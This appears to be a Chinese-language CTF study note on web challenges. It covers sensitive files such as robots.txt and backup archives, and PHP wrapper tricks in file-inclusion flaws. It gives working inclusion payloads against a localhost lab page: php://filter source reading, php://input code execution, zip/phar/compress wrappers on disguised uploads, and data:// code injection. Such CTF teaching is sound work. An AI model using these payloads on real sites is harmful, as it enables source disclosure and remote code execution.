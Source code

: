 ## web

关于Web的敏感文件有：
1. robots.txt文件是一种叫做robots的协议。其文件常在网站根目录下。告诉网络爬虫，哪些文件或者文件夹可以被网络爬虫获取。哪些文件不可以被网络爬虫获取。
2. readme.md是一种以MarkeDown格式书写的文件。通常记录一些CMS版本的信息。部分提供其CMS的GitHub地址。
3. www.zip/rar/tar.gz 是一种压缩包格式的文件。
4. index.php或者index.php~

### PHP伪协议

具体题目：[[极客大挑战 2019]Secret File 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Secret%20File)

经验一：看到flag.php应该联想到php伪协议，读取文件源码：
```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

#### file://协议

1. file://[文件的绝对路径和文件名]
```
http://127.0.0.1/include.php?file=file://E:\phpStudy\PHPTutorial\WWW\phpinfo.txt
```
![image](https://user-images.githubusercontent.com/27406337/164958344-118408cf-3ecf-409b-a9e3-0de13e81ad04.png)

2. 文件相对路径和文件名

```
http://127.0.0.1/include.php?file=./phpinfo.txt
```

![image](https://user-images.githubusercontent.com/27406337/164958372-33d4b647-0a55-4a83-a501-a64e09be9ac5.png)

3. http：//网络路径和文件名

```
http://127.0.0.1/include.php?file=http://127.0.0.1/phpinfo.txt
```

#### php://协议

php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是php://filter和php://input，php://filter用于读取源码，php://input用于执行php代码。

![image](https://user-images.githubusercontent.com/27406337/164958421-551240a5-a32d-4ba0-9647-b49249d7b652.png)

- php://filter参数详解

|php://filter参数|描述|
|--|--|
|resource=<要过滤的数据流>|必须项。它指定了你要筛选过滤的数据流。|
|read=<读链的过滤器>|可选项。可以设定一个或多个过滤器名称，以管道符（\*\	\*）分隔。|
|write=<写链的过滤器>|可选项。可以设定一个或多个过滤器名称，以管道符（\	）分隔。|
|<; 两个链的过滤器>|任何没有以 read= 或 write= 作前缀的筛选器列表会视情况应用于读或写链。|

- 可用过滤器列表

![image](https://user-images.githubusercontent.com/27406337/164958515-4a04a3bc-af3e-49a9-9c95-846a42ddcd3b.png)

![image](https://user-images.githubusercontent.com/27406337/164958521-b3afecca-fc6a-4713-a62e-e794b952389f.png)

![image](https://user-images.githubusercontent.com/27406337/164958525-bef470eb-29cc-47da-a681-ae339bf51eb8.png)


示例：
1. php://filter/read=convert.base64-encode/resource=[文件名]读取文件源码（针对php文件需要base64编码）

```
http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php
```
![image](https://user-images.githubusercontent.com/27406337/164958549-0cf1d547-7d4c-440b-9b89-0331421b0a28.png)

2. php://input + [POST DATA]执行php代码

![image](https://user-images.githubusercontent.com/27406337/164958567-e44b6312-a113-45e4-99b4-f37e51d22d50.png)


#### zip:// & bzip2:// & zlib:// 协议

zip:// & bzip2:// & zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：jpg png gif xxx 等等。

1. zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（#编码为%23）
压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传。
```
http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt
```
![image](https://user-images.githubusercontent.com/27406337/164958598-225defff-d965-4635-9d89-41ce0ea99368.png)

2. compress.bzip2://file.bz2
压缩 phpinfo.txt 为 phpinfo.bz2 并上传（同样支持任意后缀名）
```
http://127.0.0.1/include.php?file=compress.bzip2://E:\phpStudy\PHPTutorial\WWW\phpinfo.bz2
```
![image](https://user-images.githubusercontent.com/27406337/164958616-3a68cc6e-0d0a-49ac-90dc-d62b27bac2c5.png)

3. compress.zlib://file.gz
压缩 phpinfo.txt 为 phpinfo.gz 并上传（同样支持任意后缀名）

```
http://127.0.0.1/include.php?file=compress.zlib://E:\phpStudy\PHPTutorial\WWW\phpinfo.gz
```
![image](https://user-images.githubusercontent.com/27406337/164958634-5e1c0d25-1fdf-4365-b397-4d681478eef8.png)


#### data:// 协议

1. data://text/plain,
```
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
```
![image](https://user-images.githubusercontent.com/27406337/164958676-eff4ed97-11d3-4ae4-9b6c-e1312cc2049c.png)

2. data://text/plain;base64,
```
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

![image](https://user-images.githubusercontent.com/27406337/164958688-3ee35831-d69e-4a93-9d36-75004b68eb60.png)

3. http:// & https:// 协议
```
http://127.0.0.1/include.php?file=http://127.0.0.1/phpinfo.txt
```

![image](https://user-images.githubusercontent.com/27406337/164958699-f71aec6e-6a94-4875-8bb0-d6d2777afa4e.png)

#### phar:// 协议

```
http://127.0.0.1/include.php?file=phar://E:/phpStudy/PHPTutorial/WWW/phpinfo.zip/phpinfo.txt
```

![image](https://user-images.githubusercontent.com/27406337/164958709-ef7ff286-01b0-48ef-884f-f628b1c249bf.png)


参考：[PHP伪协议总结](https://segmentfault.com/a/1190000018991087)